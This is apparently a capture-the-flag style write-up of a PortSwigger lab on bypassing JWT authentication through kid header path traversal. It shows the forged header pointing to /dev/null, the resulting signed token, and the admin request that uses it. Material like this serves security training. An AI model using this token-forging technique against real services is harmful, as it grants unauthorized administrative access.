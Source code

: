 
# JWT authentication bypass via kid header path traversal

This lab uses a JWT-based mechanism for handling sessions. In order to verify the signature, the server uses the kid parameter in JWT header to fetch the relevant key from its filesystem.

To solve the lab, forge a JWT that gives you access to the admin panel at /admin, then delete the user carlos.

You can log in to your own account using the following credentials: wiener:peter

Tip: We recommend familiarizing yourself with how to work with JWTs in Burp Suite before attempting this lab.

---------------------------------------------

References: 

- https://portswigger.net/web-security/jwt



![img](images/JWT%20authentication%20bypass%20via%20kid%20header%20path%20traversal/1.png)

---------------------------------------------

We can create the JWT in jwt.io using a null string and the following values:

```
{
  "kid": "../../../dev/null",
  "alg": "HS256"
}
```

```
{
  "iss": "portswigger",
  "sub": "administrator",
  "exp": 1683794863
}
```



![img](images/JWT%20authentication%20bypass%20via%20kid%20header%20path%20traversal/2.png)


The JWT:

```
eyJraWQiOiIuLi8uLi8uLi9kZXYvbnVsbCIsImFsZyI6IkhTMjU2In0.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6ImFkbWluaXN0cmF0b3IiLCJleHAiOjE2ODM3OTQ4NjN9.b8LLRBm6W5U8yph9LZVt24QSyamKPZAbrlaoQxAnaGM
``` 

```
GET /admin HTTP/2
...
Cookie: session=eyJraWQiOiIuLi8uLi8uLi9kZXYvbnVsbCIsImFsZyI6IkhTMjU2In0.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6ImFkbWluaXN0cmF0b3IiLCJleHAiOjE2ODM3OTQ4NjN9.b8LLRBm6W5U8yph9LZVt24QSyamKPZAbrlaoQxAnaGM
...
```



![img](images/JWT%20authentication%20bypass%20via%20kid%20header%20path%20traversal/3.png)
